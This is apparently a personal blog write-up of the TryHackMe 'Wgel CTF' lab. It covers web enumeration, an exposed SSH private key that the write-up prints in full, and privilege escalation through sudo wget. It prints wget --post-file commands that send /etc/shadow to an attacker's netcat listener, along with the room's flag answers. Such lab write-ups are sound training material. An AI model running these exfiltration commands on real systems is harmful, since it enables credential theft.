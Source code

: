 ```yaml
---
title: Wgel CTF (Try Hack Me)
author: Robin Goyal
date: 2021-09-09 18:30 -0400
categories: [Cybersecurity, Writeups]
tags: [thm, ctf, writeup]
hidden: true
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/8116d1d52d3a63dd1e7c2e7ddce8a0d5.png
---
```


I am currently in the process of completing these boxes on Try Hack Me again in an effort to document my experience, reinforce my knowledge of the topics, and improve my ability to concisely communicate the pentest lifecycle.

## Enumeration

Performing an nmap scan of the top 1000 ports for this target, we come across two accessible ports:
- 22 (SSH)
- 80 (HTTP)

![nmap results](/assets/img/posts/thm-wgel-ctf/nmap.jpg)

From the service information for the two open ports, the target is an Ubuntu Linux OS. Let's enumerate those services further.

### HTTP

The http-title nmap script reveals that the title of the web application is the default Apache landing page title. Let's check out the page to confirm this.

![80 default landing](/assets/img/posts/thm-wgel-ctf/80-landing.jpg)

Turns out the http-title script did not lie to us. There is no interesting information revealed within this page but looking deeper into the page source, and we come across some leaked information in the source code.

![80 default source](/assets/img/posts/thm-wgel-ctf/80-landing-source.jpg)

Despite it being riddled with spelling mistakes, we can deduce two critical pieces of information:
- the website has not been updated meaning there may be some vulnerabilities or information
- there is potentially a user (jessie or Jessie) that could be useful for brute forcing the SSH service or provide access to a protected endpoint

Let's now proceed with directory enumeration using gobuster.

![80 gobuster results](/assets/img/posts/thm-wgel-ctf/80-gobuster.jpg)

Browsing to the /sitemap endpoint, we're presented with another landing page.

![80 sitemap landing](/assets/img/posts/thm-wgel-ctf/80-sitemap-landing.jpg)

Let's obtain a more concrete picture of the application and perform another directory enumeration scan before we manually enumerate the UNAPP application.

**Note**: gobuster is not a recursive tool so we have to perform this for each endpoint we may across.

![80 gobuster sitemap results](/assets/img/posts/thm-wgel-ctf/80-gobuster-sitemap.jpg)

Whoa! We may not even have to browse the application at all. The .ssh directory looks very promising!

![80 ssh index listing](/assets/img/posts/thm-wgel-ctf/80-ssh-index.jpg)

## Initial Foothold

The contents of id_rsa is a private key that may just be our foothold into the target.

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

Since we enumerated the web application thoroughly at the beginning, this private key may belong to Jessie. Fingers crossed!

Before we can use the private key, we need to modify the permissions to 600 so that SSH doesn't complain.

![80 ssh error](/assets/img/posts/thm-wgel-ctf/80-ssh-error.jpg)

The permission scheme when you first create a file is 644 but SSH complains that the file is world-readable so it ignores the private key.

![80 ssh success](/assets/img/posts/thm-wgel-ctf/80-ssh-success.jpg)

Success! Our intuition turned out to be correct. The private key was valid for jessie. Once we modified the permissions for the private key, SSH stopped complaining, and we obtained our foothold into the target.

![user flag](/assets/img/posts/thm-wgel-ctf/user-flag.jpg)

The user flag is located at /home/jessie/Documents/user_flag.txt. Now we can move onto privilege escalation!

User Flag: `057c67131c3d5e42dd5cd3075b198ff6`

## Privilege Escalation

First technique for privesc is to the check the superuser privilege for jessie.

![sudo privileges](/assets/img/posts/thm-wgel-ctf/sudo-privs.jpg)

The first of two items means that jessie can execute all commands as sudo so long as a password is provided. This won't work since we obtained access to the system using key-based authentication and not password authentication. However, the wget command can be executed as root without a password.

Gtfobins, a fantastic resource for privesc, should have an entry on how we can abuse this.

![gtfobins](/assets/img/posts/thm-wgel-ctf/gtfobins.jpg)

In this case, gtfobins was not that useful to us. Performing a bit of google-fu and we come across a great article by hackingarticles on how to exfil data using privileged wget [^wget].

The example in the articles uses the following command to exfil the /etc/shadow file.

`sudo /user/bin/wget --post-file=/etc/shadow 192.168.1.17`

In our situation, we should be able to transfer the /etc/shadow and /etc/passwd file to our attacker machine, and crack the password using John the Ripper. Alternatively, we could exfil the /root/root_flag.txt (assuming this is the pattern since the user flag was user_flag.txt) file in the /root folder but let's see if we can crack jessie's password using JTR and obtain root access.

![exfil](/assets/img/posts/thm-wgel-ctf/exfil.jpg)

Once I set up a netcat listener on port 80 redirecting any data received to a file called `passwd`, I use the wget command to post the file to our listener. Once the connection is established, the wget command will be expecting a valid HTTP response but we don't care about providing that so we can kill the netcat listener and our file will be saved to disk. The file contains the HTTP headers as part of the request so we'll take care to delete those.

Now we'll perform the same thing for the /etc/shadow file and use John the Ripper to try to crack the hash.

![unshadow](/assets/img/posts/thm-wgel-ctf/unshadow.jpg)

We only care about the jessie user so I filtered out the lines that didn't matter and used the unshadow command to combine the two into a file that John the Ripper will understand.

Since this was a sha512crypt hash with 5000 rounds, it took over an hour to go through the entire rockyou wordlist. At the end of it, there was no match.

*Knowing that I could already get the root flag easily, I decided to look at a few writeups to see if they tried to crack jessie's hashed password and all of them used wget to read or exfil the flag.*

![root flag](/assets/img/posts/thm-wgel-ctf/root-flag.jpg)

We have completed this room!

Root Flag: `b1b968b37519ad1daa6408188649263d`

## Useful Commands

### Data Exfil using Wget and Netcat

Create a netcat listener on port 80 saving the received data to a file.

`nc -nvlp 80 > file.txt`

Wget command to exfiltrate the data to your netcat listener.

`wget --post-file=/etc/shadow 10.6.5.103`

## Reflection

The first time I completed this room, I did not search through the source code of that default Apache page so I did not have knowledge of the user "jessie". I think I've learned my lesson as my first instinct even with the default Apache page is to search through all page sources for any information leakage.

If you don't fall into any rabbit holes, this room can be fairly straightforward. This is the first room I've come across where wget is a binary that is able to run as sudo so I enjoyed learning the number of things I can do to exfiltrate data or read local files.

*So far, this journey to document all of my previously completed rooms has surprised me on how much I have learned. I have a long way to go but I've become very comfortable solving the easy rooms on Try Hack Me. Once I complete these old writeups, I think it's definitely time I upgraded to the Medium rated rooms.*

## References

[^wget]: <https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/>
